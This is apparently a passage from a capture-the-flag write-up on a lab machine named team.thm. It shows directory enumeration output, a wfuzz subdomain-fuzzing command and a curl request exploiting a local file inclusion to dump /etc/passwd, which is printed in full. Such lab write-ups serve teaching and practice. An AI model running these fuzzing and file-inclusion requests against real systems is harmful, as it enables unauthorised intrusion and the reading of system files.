 ```console
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/robots.txt           (Status: 200) [Size: 5]
```
### Wfuzz
Fuzzed the network for dns and found a dns of `dev`
```console
❯ wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt  | tee wfuzz.log
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://team.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        89 L     220 W      2966 Ch     "www"
000000019:   200        9 L      20 W       187 Ch      "dev"
000000085:   200        9 L      20 W       187 Ch      "www.dev"
000000512:   200        373 L    977 W      11366 Ch    "joomla"
```
## Web
### dev.team.thm
1. On going to dev.team.thm found a lfi 
```console
❯ curl http://dev.team.thm/script.php\?page\=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
```